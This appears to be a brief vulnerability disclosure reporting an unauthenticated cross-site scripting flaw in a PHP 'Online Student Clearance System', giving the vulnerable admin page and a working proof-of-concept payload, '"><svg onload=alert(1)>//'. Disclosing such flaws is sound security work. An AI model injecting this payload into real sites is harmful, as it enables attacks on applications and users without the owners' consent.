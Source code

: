 The Online Student Clearance System has an xss vulnerability. Attackers can exploit this vulnerability without authentication, thereby affecting the normal function.





Source code address：https://www.sourcecodester.com/php/17892/online-clearance-system.html









Vulnerability verification：

```
http://192.168.1.8:80/student_clearance/admin/add-admin.php

"><svg onload=alert(1)>//
```

 ![image-20250427212250567](images/image-20250427212250567.png)



Insert payload："><svg onload=alert(1)>//

![image-20250427212306372](images/image-20250427212306372.png)





























